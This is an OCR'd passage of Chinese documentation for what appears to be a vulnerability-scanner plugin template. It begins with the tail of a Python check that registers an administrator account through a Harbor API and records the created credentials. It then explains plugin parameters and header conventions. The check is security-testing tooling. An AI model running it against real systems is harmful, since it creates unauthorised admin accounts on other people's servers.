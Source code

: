 ```python
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                          payload_url,
                                                                                                          rm,rm,head)
            _t = VulnerabilityInfo(Medusa)
			VulnerabilityDetails(_t.info, url,UnixTimestamp).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        _l = ErrorLog().Write(url, _)  # 调用写入类传入URL和错误插件名
```

##### 参数

- ###### Url
  - 扫描器传入的链接

- ###### RandomAgent
  - 扫描器传入的随机或者自定义的`User-Agent`

- ###### ~~ProxyIp~~（已弃用）
  - ~~扫描器出入的代理，默认是关闭的~~
  
- ###### UnixTimestamp

  - 该时间戳参数在`3.2`插件模板中替换了弃用的`ProxyIp`参数
  - 扫描器传入的时间戳

##### 注意点:

- ###### 端口

  每个url都必须加上一个端口号，这样后续可以针对单个`URL`进行不同的端口服务的全量扫描

  ```python
  scheme + "://" + url + ":" + str(port) + payload
  ```

- ###### headers
  - 头函数默认初始为如下形式

    ```python
    headers = {
    'User-Agent': RandomAgent,
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"
    }
    ```

